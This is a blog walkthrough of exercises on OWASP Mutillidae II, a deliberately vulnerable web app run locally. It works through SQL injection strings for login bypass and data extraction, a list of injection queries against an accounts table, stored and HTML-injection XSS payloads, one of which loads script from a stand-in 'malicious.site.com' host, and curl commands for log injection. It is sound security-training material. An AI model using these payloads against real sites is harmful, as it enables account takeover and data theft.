 ```yaml
---
draft: false
title: "Learning web app secuiry with OWASP Mutillidae II - part 1"
description: "NOWASP (Mutillidae) is a free, open source, deliberately vulnerable web-application providing a target for web-security enthusiest."
slug: "mutillidae-ii-part-1"
date: "2018-01-23T14:41:50+01:00"
categories:
  - security
  - learning
tags:
    - security
    - owasp
    - mutillidae
    - pentesting
cover:
  image: /img/2018/001/owasp_full_logo.png
  caption: "OWASP logo. Source: [secplicity.org](https://www.secplicity.org/2017/04/12/owasp-top-10-web-application-security-update/)"
  style: normal
---
```

# iNSTALLATION

Run `nowasp` container:
```bash
docker run -p 8888:80 -p 3306:3306 citizenstig/nowasp
```

Go to [http://localhost:8888/](http://localhost:8888/), and build the DB.


# eXCERCICES:

## OWASP 2013

### A1 - Injection (SQL) - SQLi Extract data - User info

Submit the form with such query in the `Name` field:
```sql
admin'-- AND 'password='password'
```

Response should contain:
```html
Username=admin
Password=adminpass
Signature=g0t r00t?
```

### A1 - Injection (SQL) - SQLi Bypass authentication - Login

You can use the same query in the `Name` field:
```sql
admin'-- AND 'password='password'
```

After submitting the query you should see that you're logged in as...:
```
Logged In Admin: admin (g0t r00t?)
```

### A1 - Injection (SQL) - SQLi Insert Injection - Add to your blog


*Stored Cross-Site Scripting*
```html
<script src="http://malicious.site.com/bad.js"></script>
```
Once saved, check your browser's Network requests using e.g. Developer tools:

{{< gallery title="Stored Cross-Site Scripting" >}}
{{< figure link="/img/2018/001/OWASP-2013-A1-Add_to_your_blog-Stored_Cross-Site_Scripting.png" thumb="-thumb" size="1311x204" caption="Stored Cross-Site Scripting" >}}
{{< /gallery >}}

get MySQL version:
```sql
'+SUBSTRING(@@version,1,10)+'
```

Red herrings: queries that don't fail but don't give much info back:
{{< highlight sqk "linenos=table,hl_lines=14,linenostart=1" >}}
'+(SELECT IF(1=1,'true','false'))+'
'+(SELECT password FROM accounts WHERE username="root")+'
'+SUBSTRING((SELECT password FROM accounts WHERE username="root"),1,10)+'
'+(SELECT table_name FROM information_schema.tables WHERE table_schema = "nowasp.accounts")+'
'+(SELECT column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts")+'
'+SUBSTRING(SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts",1,50)+'
'+SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name="accounts"),1,50)+'
aaa', now()); SELECT * FROM accounts; --
aaa', IF(1=1,'true','false'));#
aaa', IF(1=1, SELECT * FROM members, 'false'));#
'+ (SELECT password FROM accounts WHERE login='admin' ) +'
'+(SELECT password FROM members WHERE login="admin")+'
'+(SELECT IF(1=1,'true','false'))+'
admin'-- AND SELECT * FROM accounts;
{{< / highlight >}}


### A1 - Injection (SQL) - SQLi Insert Injection - Register for an Account

HTMLi - 
add this to the registration signature:
```html
<CANARY={}""()'';#$--/>1
```

or you can use it to plant some XSS:
```html
<CANARY={}""()'';#$--/><script>alert("welcome");</script>
```
Then log in as newly created user and see that `1` is visible next to the user name in top menu:

{{< gallery title="HTMLi" >}}
{{< figure link="/img/2018/001/OWASP-2013-A1-Add_to_your_blog-HTMLi.png" thumb="-thumb" size="1419x559" caption="HTMLi" >}}
{{< /gallery >}}

{{< pswp-init >}}


### A1 - Injection (SQL) - SQLi Insert Injection - View Captured Data

Here's one of my favs: `Application Log Injection`:   
You can send a dummy HTTP request with `User-Agent` header containing JS:
```bash
curl "http://localhost:8888/index.php?page=register.php" -H "User-Agent: <script>alert('pwnd with Application Log Injection');</script>"  &> /dev/null
```

or abuse the fact that the `endpoint` part of the URL is interpretted and logged so that we can include JS in it:
```bash
curl "http://localhost:8888/<script>alert('query_param');</script>" &> /dev/null
```

Once you send the request, then go to the [http://localhost:8888/index.php?page=show-log.php](http://localhost:8888/index.php?page=show-log.php) the alert pop-ups will appear.

*NOTES:*

* can you create an account for `root` user???

```bash
curl "http://localhost:8888/index.php?page=capture-data.php&showhints=1" -H "PHPSESSID: 5hdie94hhe7cc50pqsbvujqkb3"
```
